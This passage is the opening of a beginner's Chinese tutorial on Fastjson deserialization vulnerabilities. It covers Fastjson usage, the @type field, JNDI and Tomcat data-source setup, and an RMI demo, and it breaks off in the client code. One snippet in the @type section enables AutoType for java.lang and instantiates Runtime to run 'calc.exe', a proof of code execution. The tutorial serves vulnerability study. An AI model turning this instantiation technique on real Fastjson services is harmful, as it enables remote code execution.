







# 完全零基础入门 Fastjson 系列漏洞（基础篇） - 先知社区

完全零基础入门 Fastjson 系列漏洞（基础篇）

- - -

## 零、前言与目录

  我在学习`Java`漏洞的时候，感觉很痛苦，不知道从何学起，因为我的`Java`基础实在是太烂了，而且网上的关于这方面的文章，要么就给我这个初学者一种高深莫测、没多少基础就没法理解的感觉，要么就是写的实在是太过简略，没有系统性强、通俗易懂、小白友好的文章，于是我决定自己死磕，遇到不会的就去百度、谷歌、问`chatgpt`以及问`Java`安全大牛师傅们，于是就有了这一系列的文章。  
  本文作为`Java`安全亲妈级零基础教程的第一篇`Fastjson`漏洞的基础篇，从前置知识开始讲起，然后过渡到漏洞的复现和代码的分析，本文除去代码一共近`11000`字，配图`117`张，配图足够详细清楚，跟着复现分析基本可以搞明白这些漏洞是怎么一回事。提高篇会重点研究`Fastjson`的其他`payload`和`Fastjson`的不出网利用上，会在下一次更新。  
  我在学习`Fastjson`相关漏洞的时候，掌握基础之后再看师傅们的分析文章，常常不由得拍手称快，心里由衷地佩服发现这些利用链的师傅们，利用链是如此的巧妙，和开发者们之间的一攻一防真是让人觉得酣畅淋漓，精彩不觉。在写这系列的文章的时候，我常常能进入到久违的”心流“状态，丝毫感觉不到时间的流逝，版本之间的不同、开发者和白帽子之间对弈的场景与时间轴仿佛就呈现在我的眼前，如同过电影一般，快哉快哉！  
  在学习的过程中，我阅读参考了数十篇师傅的文章，这些都被我列在文末，以表感谢。  
  本文写作的时候，由于经常熬夜，出错之处在所难免，还望师傅们在评论区指出来！

  本文由于包含一些`payload`，可能会在先知社区发文时被拦截，因此进行了截图处理，原版`markdown`文件可以去`github`上下载，这样方便复制代码：

> [https://github.com/W01fh4cker/LearnFastjsonVulnFromZero-Basic](https://github.com/W01fh4cker/LearnFastjsonVulnFromZero-Basic)

## 一、前置知识

## 1\. fastjson 怎么用？

`fastjson`是啥百度就有，看了之后不熟悉的人还是会一脸懵逼，我们可以通过以下这个小例子来快速学会使用`fastjson`。我们分为以下几个步骤来进行：

### （1）在 IDEA 中新建一个 maven 项目，并引入 fastjson 依赖

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170417-8dca1b0e-ba97-1.jpeg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170418-8e09d0fa-ba97-1.jpeg)  
选择`Maven`，然后给随便取个名字，例如我起名`fastjson_research`。  
然后在 pom.xml 这里的末尾，添加如下内容：

```plain
<dependencies>
    <dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.50</version>
    </dependency>
</dependencies>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170418-8e63662e-ba97-1.jpeg)  
具体`Maven`的各个依赖的详细信息我们可以在这个网站上面查得到：

```plain
https://mvnrepository.com/artifact/com.alibaba/fastjson/1.2.50
```

然后点击右侧的`Maven`，然后点击`Reload All Maven Projects`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170419-8ed83828-ba97-1.jpeg)

### （2）一个简单的 demo

```plain
package org.example;
import com.alibaba.fastjson.JSON;

public class Main {

    public static void main(String[] args) {
        // 将一个 Java 对象序列化为 JSON 字符串
        Person person = new Person("Alice", 18);
        String jsonString = JSON.toJSONString(person);
        System.out.println(jsonString);

        // 将一个 JSON 字符串反序列化为 Java 对象
        String jsonString2 = "{\"age\":20,\"name\":\"Bob\"}";
        Person person2 = JSON.parseObject(jsonString2, Person.class);
        System.out.println(person2.getName() + ", " + person2.getAge());
    }

    // 定义一个简单的 Java 类
    public static class Person {
        private String name;
        private int age;

        public Person(String name, int age) {
            this.name = name;
            this.age = age;
        }

        public String getName() {
            return name;
        }

        public int getAge() {
            return age;
        }
    }
}
```

运行之后输出结果如下：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170420-8f48d5c4-ba97-1.jpeg)  
通过以上代码我们可以看到，我们定义了一个`Person`类，并设置了两个属性`age`以及`name`，以及简单定义了四个方法。  
我们通过`Person person = new Person("Alice", 18);`来初始化对象，再通过`String jsonString = JSON.toJSONString(person);`去把对象转化为`json`字符串，非常方便快捷；完事之后，我们又可以通过`Person person2 = JSON.parseObject(jsonString2, Person.class);`把`json`字符串转换为`Java`对象，非常简单快捷。

### （3）更进一步改动理解上述 demo 代码

其实上面给出的代码是有一些问题的，这个问题并不是指代码本身错误。

#### ①问题 1：`Person person2 = JSON.parseObject(jsonString2, Person.class);`这里为什么可以直接使用`Person.class`来进行映射？

在使用`fastjson`时，我们需要先将`JSON`字符串和`Java`对象之间建立映射关系，可以通过类的属性和`JSON`字段名进行映射。在我们上面的代码中，`Java`类的属性名和`JSON`字段名是相同的，因此可以直接使用`Person.class`来进行映射。  
**如果不同我们该怎么办？**  
我们可以通过使用注解来指定它们之间的映射关系。在`fastjson`中，可以使用`@JSONField`注解来指定`Java`类的属性和`JSON`字段之间的映射关系。请看以下`demo`代码：

```plain
package org.example;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.annotation.JSONField;

public class Main {

    public static void main(String[] args) {
        // 将一个 Java 对象序列化为 JSON 字符串
        Person person = new Person("Alice", 18);
        String jsonString = JSON.toJSONString(person);
        System.out.println(jsonString);

        // 将一个 JSON 字符串反序列化为 Java 对象
        String jsonString2 = "{\"user_name\":\"Bob\",\"user_age\":20}";
        Person person2 = JSON.parseObject(jsonString2, Person.class);
        System.out.println(person2.getName() + ", " + person2.getAge());
    }

    // 定义一个简单的 Java 类
    public static class Person {
        @JSONField(name = "user_name")
        private String name;
        @JSONField(name = "user_age")
        private int age;

        public Person(String name, int age) {
            this.name = name;
            this.age = age;
        }

        public String getName() {
            return name;
        }

        public void setName(String name) {
            this.name = name;
        }

        public int getAge() {
            return age;
        }

        public void setAge(int age) {
            this.age = age;
        }
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170421-8fd0dea6-ba97-1.jpeg)  
可以看到，我们在定义`name`和`age`的时候，在上面分别加入了一行`@JSONField(name = "user_name")`和`@JSONField(name = "user_age")`，这样一来，即使我们输入的字符串中写的是`user_name`和`user_age`，它也能被识别解析到。

#### ②问题 2：为什么我初始化对象的时候，代码明明写的是`Person person = new Person("Alice", 18);`，`name`在前，`age`在后，怎么转化成`json`字符串的时候就变成了`age`在前，`name`在后了？

原来，在`fastjson`中，默认情况下，生成的`JSON`字符串的顺序是按照**属性的字母顺序**进行排序的，而不是按照属性在类中的声明顺序。  
如果我们希望按照属性在类中的声明顺序来生成`JSON`字符串，可以通过在类中使用`@JSONType`注解来设置属性的序列化顺序，请看下面的代码：

```plain
package org.example;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.annotation.JSONType;

public class Main {

    public static void main(String[] args) {
        // 将一个 Java 对象序列化为 JSON 字符串
        Person person = new Person("Alice", 18);
        String jsonString = JSON.toJSONString(person);
        System.out.println(jsonString);

        // 将一个 JSON 字符串反序列化为 Java 对象
        String jsonString2 = "{\"name\":\"Bob\",\"age\":20}";
        Person person2 = JSON.parseObject(jsonString2, Person.class);
        System.out.println(person2.getName() + ", " + person2.getAge());
    }

    // 定义一个简单的 Java 类
    @JSONType(orders = {"name", "age"})
    public static class Person {
        private String name;
        private int age;

        public Person(String name, int age) {
            this.name = name;
            this.age = age;
        }

        public String getName() {
            return name;
        }

        public void setName(String name) {
            this.name = name;
        }

        public int getAge() {
            return age;
        }

        public void setAge(int age) {
            this.age = age;
        }
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170422-906869ba-ba97-1.jpeg)  
我们通过`@JSONType(orders = {"name", "age"})`来指定属性的序列化顺序，这样就是`name`在前，`age`在后了。

## 2\. @type 是什么东西？如何反序列化带@type 的 json 字符串？

> 参考：[https://www.cnblogs.com/nice0e3/p/14601670.html](https://www.cnblogs.com/nice0e3/p/14601670.html)

我们在网上看到了很多讲`fastjson`反序列化漏洞的文章，里面都提到了`@type`，那么它到底是什么呢？  
`@type`是`fastjson`中的一个特殊注解，用于标识`JSON`字符串中的某个属性是一个`Java`对象的类型。具体来说，当`fastjson`从`JSON`字符串反序列化为`Java`对象时，如果`JSON`字符串中包含`@type`属性，`fastjson`会根据该属性的值来确定反序列化后的`Java`对象的类型。请看以下代码：

```plain
package org.example;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;
import java.io.IOException;

public class Main {
    public static void main(String[] args) throws IOException {
        String json = "{\"@type\":\"java.lang.Runtime\",\"@type\":\"java.lang.Runtime\",\"@type\":\"java.lang.Runtime\"}";
        ParserConfig.getGlobalInstance().addAccept("java.lang");
        Runtime runtime = (Runtime) JSON.parseObject(json, Object.class);
        runtime.exec("calc.exe");
    }
}
```

可以看到直接弹窗了：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170422-90db1c08-ba97-1.jpeg)  
由于`fastjson`在`1.2.24`之后默认禁用`AutoType`，因此这里我们通过`ParserConfig.getGlobalInstance().addAccept("java.lang");`来开启，否则会报错`autoType is not support`。  
我们再看这样的一个`demo`：  
首先是类的定义，例如我们的`Person.java`：

```plain
package org.example;

public class Person {
    private String name;
    private int age;

    public Person() {}

    @Override
    public String toString() {
        return "Person{" +
                "name='" + name + '\'' +
                ", age=" + age +
                '}';
    }

    public Person(String name, int age) {
        this.name = name;
        this.age = age;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }
}
```

然后是`Main.java`：

```plain
package org.example;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.serializer.SerializerFeature;

public class Main {
    public static void main(String[] args) {
        Person user = new Person();
        user.setAge(18);
        user.setName("xiaoming");
        String s1 = JSON.toJSONString(user, SerializerFeature.WriteClassName);
        System.out.println(s1);
    }
}
```

输出结果为：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170423-9134d252-ba97-1.jpeg)  
在和前面代码做对比后，可以发现其实就是在调用`toJSONString`方法的时候，参数里面多了一个`SerializerFeature.WriteClassName`方法。传入`SerializerFeature.WriteClassName`可以使得`Fastjson`支持自省，开启自省后序列化成`JSON`的数据就会多一个`@type`，这个是代表对象类型的`JSON`文本。`FastJson`的漏洞就是他的这一个功能去产生的，在对该`JSON`数据进行反序列化的时候，会去调用指定类中对于的`get/set/is`方法，后面会详细分析。  
然后我们就可以通过以下三种方式来反序列化`json`字符串了：

```plain
// 方法一（返回 JSONObject 对象）：
Person user = new Person();
user.setAge(18);
user.setName("xiaoming");
String s1 = JSON.toJSONString(user, SerializerFeature.WriteClassName);
JSONObject jsonObject = JSON.parse(s1);
System.out.println(jsonObject);

// 方法二：
Person user = new Person();
user.setAge(18);
user.setName("xiaoming");
String s = JSON.toJSONString(user);
Person user1 = JSON.parseObject(s, Person.class);
System.out.println(user1);

// 方法三：
Person user = new Person();
user.setAge(18);
user.setName("xiaoming");
String s1 = JSON.toJSONString(user, SerializerFeature.WriteClassName);
Person user1 = JSON.parseObject(s1,Person.class);
System.out.println(user1);
```

执行结果都是一样的：

```plain
Person{name='xiaoming', age=18}
```

## 3\. JNDI 是什么东西？

`JNDI`是`Java`平台的一种`API`，它提供了访问各种命名和目录服务的统一方式。`JNDI`通常用于在`JavaEE`应用程序中查找和访问资源，如`JDBC`数据源、`JMS`连接工厂和队列等。  
光这么说还是太抽象了，直接上例子。如果我们想要搭建一个`jndi`的环境，我们需要这么做：  
首先需要说明的是我`Java`版本是`17`，如果不是的话需要安装配置，不然后面的可能会报错，百度谷歌都没用的那种。

### （1）整一个 tomcat 容器，并在容器中配置数据源

打开`[https://tomcat.apache.org/](https://tomcat.apache.org/)`，然后点击`Download`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170424-91b5fbb6-ba97-1.jpeg)  
这里直接选择下载`64`位`Windows`的压缩包：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170424-921da446-ba97-1.jpeg)  
下载链接：[https://dlcdn.apache.org/tomcat/tomcat-11/v11.0.0-M4/bin/apache-tomcat-11.0.0-M4-windows-x64.zip](https://dlcdn.apache.org/tomcat/tomcat-11/v11.0.0-M4/bin/apache-tomcat-11.0.0-M4-windows-x64.zip)  
解压之后，可以给改一个简洁一点的名字，例如`tomcat`，然后把`bin`目录放到环境变量中，如下图：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170425-924d0768-ba97-1.jpeg)  
然后再新建一个名为`CATALINA_HOME`的路径，值为`tomcat`的根目录，例如我的：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170425-927a57ea-ba97-1.jpeg)  
除此之外，没有配置`JAVA_HOME`和`JRE_HOME`的也要在用户变量中配置一下，需要注意的是，我这里貌似需要安装并配置`Java17`，否则一直闪退无法启动：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170426-92cdc61e-ba97-1.jpeg)  
双击`tomcat`的`bin`目录下的`startup.bat`，然后访问`[http://localhost:8080/](http://localhost:8080/)`，就可以看到服务启动成功了：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170426-932a7d96-ba97-1.jpeg)  
然后配置`tomcat`目录下的`context.xml`（`tomcat7`及以前则是配置`server.xml`）：

```plain
<Resource name="jdbc/security" auth="Container" type="javax.sql.DataSource"
             maxTotal="100" maxIdle="30" maxWaitMillis="10000"
             username="root" password="123456" driverClassName="com.mysql.jdbc.Driver"
             url="jdbc:mysql://localhost:3306/security"/>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170427-93c64da2-ba97-1.jpeg)  
可以根据自己本地开启的`mysql`的实际情况来改，我这里是使用`phpstudy`来安装开启`mysql`的：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170428-93ffb0a6-ba97-1.jpeg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170428-946f05fa-ba97-1.jpeg)  
然后继续配置`tomcat`的`conf`目录下的`web.xml`：

```plain
<resource-ref>
    <description>Test DB Connection</description>
    <res-ref-name>jdbc/root</res-ref-name>
    <res-type>javax.sql.DataSource</res-type>
    <res-auth>Container</res-auth>
</resource-ref>
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170429-94c97684-ba97-1.jpeg)

### （2）去 IDEA 里面配置 web

首先先新建一个项目，我命名为`jndi_demo`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170429-9510df42-ba97-1.jpeg)  
接着配置`tomcat`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170430-9595a056-ba97-1.jpeg)  
这里我选择了`8089`端口，因为我`8080`端口之前被我占用了：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170431-9609592e-ba97-1.jpeg)  
然后：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170431-964d7820-ba97-1.jpeg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170432-968b3da4-ba97-1.jpeg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170432-96e6301a-ba97-1.jpeg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170433-973623f4-ba97-1.jpeg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170434-97a43a42-ba97-1.jpeg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170434-97ea307e-ba97-1.jpeg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170435-98345e60-ba97-1.jpeg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170435-9884384a-ba97-1.jpeg)  
然后填写代码运行配置：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170436-98de50be-ba97-1.jpeg)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170436-992fc354-ba97-1.jpeg)

### （3）跑 jndi 的 demo 代码，感受 jndi 的用处

然后贴上如下代码：

```plain
package org.example;

import jakarta.servlet.ServletException;
import jakarta.servlet.annotation.WebServlet;
import jakarta.servlet.http.HttpServlet;
import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;
import javax.naming.Context;
import javax.naming.InitialContext;
import javax.sql.DataSource;
import java.io.IOException;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.Statement;

@WebServlet("/test")
public class Test extends HttpServlet {

    @Override
    protected void service(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
        try {
            // 获取JNDI上下文
            Context ctx = new InitialContext();

            // 查找数据源
            Context envContext = (Context) ctx.lookup("java:/comp/env");
            DataSource ds = (DataSource) envContext.lookup("jdbc/security");

            // 获取连接
            Connection conn = ds.getConnection();

            System.out.println("[+] success!");

            // 执行查询
            Statement stmt = conn.createStatement();
            ResultSet rs = stmt.executeQuery("select * from security.emails;");

            // 处理结果集
            while (rs.next()) {
                System.out.println(rs.getString("email_id"));
            }

            // 关闭连接
            rs.close();
            stmt.close();
            conn.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

成功跑起来了：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170437-99a0c572-ba97-1.jpeg)  
然后访问`[http://localhost:6063/test](http://localhost:6063/test)`：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170438-9a00d3cc-ba97-1.jpeg)  
没有出现`404`，说明`WebServlet`拦截成功，回到`idea`，发现查询成功：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240124170438-9a76959e-ba97-1.jpeg)

## 4\. RMI 是什么东西？

### （1）通过一个 demo 快速认识 rmi 是如何调用的

`RMI`指的是远程方法调用（`Remote Method Invocation`），是`Java`平台提供的一种机制，可以实现在不同`Java`虚拟机之间进行方法调用。这么说是真抽象，我们直接看下面使用了`RMI`的`demo`代码，包括一个服务器端和一个客户端。这个`demo`实现了一个简单的计算器程序，客户端通过`RMI`调用服务器端的方法进行加、减、乘、除四则运算。  
首先是一个计算器接口：

```plain
package org.example;

import java.rmi.Remote;
import java.rmi.RemoteException;

public interface Calculator extends Remote {
    public int add(int a, int b) throws RemoteException;

    public int subtract(int a, int b) throws RemoteException;

    public int multiply(int a, int b) throws RemoteException;

    public int divide(int a, int b) throws RemoteException;
}
```

然后是客户端代码：

```plain
package org.example;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Client {
    private Client() {}

    public static void main(String[] args) {
        try {
            // Get the registry
            Registry registry = LocateRegistry.getRegistry("localhost", 1060);

            // Lookup the remote object "Calculator"
            Calculator calc = (Calculator) registry.lookup("Calculator");

            // Call the remote method
            int result = calc.add(5, 7);

            // Print the result
            System.out.println("Result: " + result);
        } catch (Exception e) {
            System.err.println("Client exception: " + e.toString());
            e.printStackTrace();
        }
    }
}
